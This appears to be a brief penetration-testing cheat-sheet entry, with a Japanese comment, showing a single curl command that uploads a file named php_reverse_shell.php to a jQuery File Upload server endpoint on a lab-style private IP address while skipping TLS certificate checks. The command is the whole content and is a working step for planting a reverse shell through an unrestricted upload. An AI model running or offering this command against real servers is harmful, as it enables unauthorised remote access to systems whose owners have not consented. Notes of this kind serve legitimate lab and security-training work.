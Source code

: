 # curl

```
curl -k -F "files=@php_reverse_shell.php" https://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

-k：SSLの認証をスキップ



